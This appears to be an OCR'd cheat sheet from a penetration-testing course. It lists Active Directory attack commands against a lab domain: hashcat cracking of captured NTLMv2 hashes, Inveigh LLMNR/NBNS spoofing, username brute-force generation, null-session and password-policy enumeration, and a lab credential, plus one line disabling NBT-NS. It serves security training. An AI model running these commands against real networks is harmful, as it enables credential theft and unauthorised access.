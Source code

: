 `hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt`

    Uses `hashcat` to crack `NTLMv2` (`-m`) hashes that were captured by responder and saved in a file (`frond_ntlmv2`). The cracking is done based on a specified wordlist.

`Import-Module .\Inveigh.ps1`

    Using the `Import-Module` PowerShell cmd-let to import the Windows-based tool `Inveigh.ps1`.

`(Get-Command Invoke-Inveigh).Parameters`

    Used to output many of the options & functionality available with `Invoke-Inveigh`. Peformed from a Windows-based host.

`Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y`

    Starts `Inveigh` on a Windows-based host with LLMNR & NBNS spoofing enabled and outputs the results to a file.

`.\Inveigh.exe`

    Starts the `C#` implementation of `Inveigh` from a Windows-based host.

`$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces" Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}`

    PowerShell script used to disable NBT-NS on a Windows host.

Password Spraying & Password Policies

`#!/bin/bash for x in {{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}} do echo $x; done`

    Bash script used to generate `16,079,616` possible username combinations from a Linux-based host.

`crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol`

    Uses `CrackMapExec`and valid credentials (`avazquez:Password123`) to enumerate the password policy (`--pass-pol`) from a Linux-based host.

`rpcclient -U "" -N 172.16.5.5`

    Uses `rpcclient` to discover information about the domain through `SMB NULL` sessions. Performed from a Linux-based host.

`rpcclient $> querydominfo`

    Uses `rpcclient` to enumerate the password policy in a target Windows domain from a Linux-based host.

`enum4linux -P 172.16.5.5`

    Uses `enum4linux` to enumerate the password policy (`-P`) in a target Windows domain from a Linux-based host.

`enum4linux-ng -P 172.16.5.5 -oA ilfreight`

    Uses `enum4linux-ng` to enumerate the password policy (`-P`) in a target Windows domain from a Linux-based host, then presents the output in YAML & JSON saved in a file proceeding the `-oA` option.

`ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength`
